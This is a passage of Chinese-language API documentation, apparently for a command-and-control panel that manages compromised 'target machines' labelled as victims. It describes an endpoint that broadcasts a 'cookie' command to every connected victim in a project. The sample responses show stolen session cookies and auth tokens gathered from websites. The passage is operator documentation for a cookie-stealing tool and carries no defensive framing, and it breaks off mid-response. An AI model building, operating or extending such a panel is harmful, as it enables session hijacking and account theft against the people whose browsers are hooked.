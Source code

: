 **错误响应:**
```json
{
  "status": "error",
  "message": "靶机不存在",
  "timestamp": "2025-01-20T10:35:00Z"
}
```

---

## 💻 命令执行 API

### 1. 向项目内所有靶机广播命令
```http
POST /api/commands?project={project_id}
Content-Type: application/json
```

**功能:** 向指定项目内所有连接的靶机发送命令

**查询参数:**
- `project` (必需, string): 项目JID

**请求体:**
```json
{
  "command": "cookie",
  "args": {
    "additional_param": "value"
  }
}
```

**请求参数:**
- `command` (必需, string): 要执行的命令类型
- `args` (可选, object): 命令的附加参数

**响应示例:**
```json
{
  "status": "success", 
  "message": "命令执行完成，收到 3 个结果",
  "data": {
    "command": "cookie",
    "project_id": "PROJ123456",
    "target_id": "",
    "args": {
      "additional_param": "value"
    },
    "results": [
      {
        "client_id": "victim_abc123",
        "command": "cookie",
        "result": "session_id=abc123; auth=xyz789",
        "url": "https://target-site.com",
        "timestamp": 1640995200
      },
      {
        "client_id": "victim_def456", 
        "command": "cookie",
        "result": "user_token=token123; csrf=csrf456",
        "url": "https://another-site.com",
        "timestamp": 1640995201
      }
    ],
    "count": 3
```